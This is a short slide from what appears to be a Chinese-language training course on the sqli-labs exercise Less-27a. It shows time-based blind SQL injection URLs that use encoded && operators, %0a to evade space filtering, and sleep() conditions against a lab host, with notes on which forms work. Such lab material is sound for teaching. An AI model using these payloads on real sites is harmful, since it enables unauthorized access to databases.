

# Less-27A_02
法二：使用基于时间的盲注  其中%26%26 代表 &&
1. http://47.100.118.240:8888/Less-27a/?id=1“ %26%26 if( length(database())>1, 1, sleep(5)    )  %26%26 %0a  ”1“=”1
注意：在句子后面不能使用or，因为使用or的情况下，无论如何情况返回都会是真。
http://47.100.118.240:8888/Less-27a/?id=1“ %26%26 if( length(database())>1, 1, sleep(5)    )  || %0a  ”1“=”1  这种写法是错误的
2. http://47.100.118.240:8888/Less-27a/?id=1111“ || if( length(database())=1, 1, sleep(5)    )  %26%26  %0a  ”1“=”1 这样写也是可以的